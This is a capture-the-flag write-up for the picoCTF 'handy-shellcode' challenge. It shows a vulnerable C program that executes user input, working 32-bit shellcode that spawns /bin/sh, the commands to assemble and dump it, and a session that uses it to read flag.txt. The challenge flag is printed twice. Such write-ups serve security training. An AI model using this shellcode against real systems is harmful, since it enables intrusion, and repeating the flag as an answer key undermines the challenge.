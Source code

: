 
# Binary Exploitation - handy-shellcode (50 points)

## Challenge

*This [program](./vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. [Source](./vuln.c).*

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Flag

picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}

## Walkthrough

The function `void vuln(char *buf)` is vulnerable to a buffer overflow, because of a call to `gets()` (no boundaries) rather than `fgets()` (which read only a limited number of char). But, this is not what we are going to use here.

The end of *vuln.c* cast `buf` as pointer to a function taking no arguments and returning void. Hence, we can inject a shellcode in `buf` to spawn a shell.

Let's create a simple shell code to invoke `/bin/sh` using a system call to `sys_execve()`.

```asm
; shellcode.nasm
bits 32

shellcode:
    ; reset registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; push null terminator and //bin/sh on the stack
    ; to keep bytes alignment.
    push eax
    push 0x68732f6e
    push 0x69622F2F

    ; /bin/sh\0 on top of the stack
    mov ebx, esp

    ; system call to sys_execve (system call 11)
    mov al, 11
    int 0x80
```

Now let's assemble it :

```bash
> nasm -f elf32 -o shellcode.o shellcode.nasm
> ld -m elf_i386 -s -o shellcode shellcode.o
```

And dump the shellcode :

```raw
> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74
```

OK, let's try this in the vulnerable binary :

```bash
m3oow@pico-2019-shell1:/problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb$ (echo -en "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

1�1�1�1�Phn/shh//bi��
                    ̀
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
```
